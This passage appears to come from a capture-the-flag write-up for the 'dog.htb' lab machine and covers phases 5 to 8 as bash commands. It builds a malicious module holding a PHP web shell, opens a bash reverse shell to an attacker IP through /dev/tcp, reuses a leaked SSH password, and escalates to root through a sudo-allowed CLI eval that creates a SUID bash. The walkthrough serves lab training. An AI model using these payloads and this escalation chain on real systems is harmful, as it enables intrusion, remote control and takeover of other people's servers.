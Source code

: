 ### 💣 Phase 5: RCE Exploitation

```bash
# 1. Malicious module creation
mkdir shell
echo '<?php system($_GET["cmd"]); ?>' > shell/shell.php
cat > shell/shell.info << 'EOF'
name = Shell
description = Evil module
type = module
core = 1.x
EOF

# 2. Archive creation
tar -czvf shell.tar.gz shell

# 3. Upload via http://dog.htb/?q=/admin/modules/install
# 4. Activation and test
curl "http://dog.htb/modules/shell/shell.php?cmd=id"
```

### 🐚 Phase 6: Reverse Shell

```bash
# On attacker machine
nc -lvnp 1337

# RCE command
bash -c "bash -i >& /dev/tcp/10.10.14.8/1337 0>&1"
# → www-data shell obtained
```

### 🔁 Phase 7: Lateral Movement

```bash
# User enumeration
cat /etc/passwd | grep '/home'
# → johncusack present

# SSH connection with password reuse
sshpass -p 'BackDropJ2024DS2024' ssh johncusack@dog.htb
# → SSH johncusack obtained!

# User flag retrieval
cat /home/johncusack/user.txt
```

### 👑 Phase 8: Privilege Escalation

```bash
# 1. Sudo verification
sudo -l
# → /usr/local/bin/bee allowed

# 2. Exploitation via bee (Backdrop CLI)
sudo /usr/local/bin/bee --root=/var/www/html eval "echo shell_exec('whoami && id');"
# → root uid=0

# 3. SUID shell creation
sudo /usr/local/bin/bee --root=/var/www/html eval "echo shell_exec('cp /bin/bash /tmp/bash && chmod u+s /tmp/bash');"

# 4. Root shell execution
/tmp/bash -p
whoami
```